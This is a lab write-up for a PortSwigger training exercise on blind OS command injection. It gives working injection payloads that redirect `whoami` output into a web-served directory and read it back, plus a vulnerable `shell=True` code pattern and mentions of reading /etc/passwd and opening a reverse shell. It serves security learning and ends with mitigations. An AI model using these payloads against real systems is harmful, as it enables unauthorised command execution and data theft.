


# Blind OS command injection with output redirection

| Field          | Value                                                                                    |
| -------------- | ---------------------------------------------------------------------------------------- |
| **Difficulty** | Practitioner                                                                             |
| **Category**   | OS Command Injection                                                                     |
| **Lab URL**    | `https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection` |

---

## Lab Objective

Use a blind OS command injection in the feedback function to run `whoami`, redirect its output into a file inside the web-served images directory, then fetch that file through the image endpoint to read the command's result.

---

## Skills Learned

- Turning a blind injection into a readable one via output redirection
- Writing command output to a known, web-accessible path (`/var/www/images/`)
- Retrieving the captured output through an existing file-disclosure/image endpoint

---

## Recon

Same feedback form as the time-delay lab: `POST /feedback/submit` with `name`, `email`, `subject`, `message`. Output is suppressed, so it's blind.

The lab gives two crucial hints:

- There is a writable folder at `/var/www/images/`
- The application serves product images from that folder via a `GET /image?filename=...` endpoint

So if I can drop a file into `/var/www/images/`, I can later read it back through `/image`.

---

## Finding the Vulnerability

Because the `email` field is concatenated into a shell command (same root cause as the earlier labs), I can use shell redirection (`>`) to send command output into a file instead of the terminal. The trick: point that file at the web-served images directory, then fetch it.

---

## Exploitation Steps

1. Submitted the feedback form to capture the `POST /feedback/submit` request, then sent it to **Repeater**.
2. Set the `email` parameter to redirect `whoami` output into the images folder:
   `email=utkarsh@example.com||whoami>/var/www/images/response.txt||`
   (URL-encoded in the body as `email=utkarsh@example.com||whoami>/var/www/images/response.txt||`).
3. Sent the request. The feedback was accepted; the `whoami` output was now sitting in `/var/www/images/response.txt` on the server.
4. Intercepted a request to `GET /image?filename=...` and changed the filename to `response.txt`.
5. The response body contained the output of `whoami` — a `peter-…` account.
6. Lab solved.

---

## Payload

**Step 1 — inject and redirect output to a web-served file:**

```http
POST /feedback/submit HTTP/2
Host: 0ac200cb03fe2219801bb24300f0079.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=...&name=utkarsh&email=utkarsh@example.com||whoami>/var/www/images/response.txt||&subject=hi&message=hello
```



**Step 2 — fetch the written file through the image endpoint:**

```http
GET /image?filename=response.txt HTTP/2
Host: 0ac200cb03fe2219801bb24300f0079.web-security-academy.net
```



---

## Why It Works

The feedback handler runs a shell command that includes the `email` value. By injecting:

```bash
original_command || whoami > /var/www/images/response.txt ||
```

the `>` redirect sends `whoami`'s stdout into a file inside `/var/www/images/` — the exact directory the app serves product images from. The trailing `||` makes the redirect run regardless of how the original command exits.

Then the existing `GET /image?filename=response.txt` endpoint reads that file from the same directory and returns its contents. The blind injection becomes readable: the command output is exfiltrated through the web server itself.

---

## Root Cause

Identical to the previous OS command injection labs: untrusted input is concatenated into a shell command.

```python
# Vulnerable pattern
subprocess.run("send_feedback " + name + " " + email + " " + message, shell=True)
```

The `email` field reaches the shell unescaped, so `>`, `||`, and paths are interpreted as shell syntax rather than data.

---

## Impact

This is the most dangerous of the blind variants: not only can the attacker run arbitrary commands, they can also **read the output** by writing it somewhere web-accessible. From here it's a short step to:

- Enumerate the host, read config and secrets (`cat /etc/passwd`, environment variables)
- Exfiltrate data to a fetched file, then pull it down
- Ultimately gain a stable foothold or reverse shell

Redirection turns "blind" into "fully visible."

---

## Mitigation

- **Never invoke a shell with user input.** Use argument-list APIs (`subprocess.run([...], shell=False)`).
- **Validate and allowlist** inputs; reject metacharacters (`| & ; $ > <` and paths).
- **Don't serve writable upload directories** — keep `/var/www/images/` (or equivalent) non-writable by the app, and never let user-controlled filenames map directly to filesystem paths.
- **Apply least privilege** so a compromised process can't write into web-served locations.
- **Avoid `os.system` / `shell=True`** entirely.

---

## Key Takeaways

- A blind injection isn't a dead end if there's a writable, web-served directory.
- Shell redirection (`>`) lets you capture output to a file of your choosing.
- Reuse existing file-serving endpoints (`/image?filename=`) to read the captured data back.
- The fix is the same as always: no shell, no concatenation, strict input validation.

---

## Related Labs

- [02 - Blind OS command injection with time delays](../02%20-%20Blind%20OS%20command%20injection%20with%20time%20delays/README.md) — the same blind injection, proven with a timing side channel instead of output capture
- [01 - OS command injection, simple case](../01%20-%20OS%20command%20injection%2C%20simple%20case/README.md) — the non-blind version where output comes back directly

---

## References

- [PortSwigger: OS command injection](https://portswigger.net/web-security/os-command-injection)
- [PortSwigger: OS command injection cheat sheet](https://portswigger.net/web-security/os-command-injection/cheat-sheet)
- [OWASP: Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
